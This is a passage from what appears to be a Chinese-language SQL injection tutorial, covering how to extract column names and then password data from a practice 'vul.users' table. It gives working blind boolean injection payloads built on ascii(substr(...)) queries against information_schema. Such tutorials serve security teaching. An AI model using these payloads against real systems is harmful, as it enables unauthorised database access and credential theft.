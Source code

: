 ## 3.7 获取列名



二分判断

```sql
and ascii(substr((select column_name from information_schema.columns where table_schema = 'vul' and table_name = 'users' limit 1,1),1,1))=117#
```

![image-20220603162408454](sql注入剖析.assets/image-20220603162408454.png)



## 3.8  获取列数据

```sql
and ascii(substr((select password from vul.users limit 0,1),1,1))=101#
```

![image-20220603162851961](sql注入剖析.assets/image-20220603162851961.png)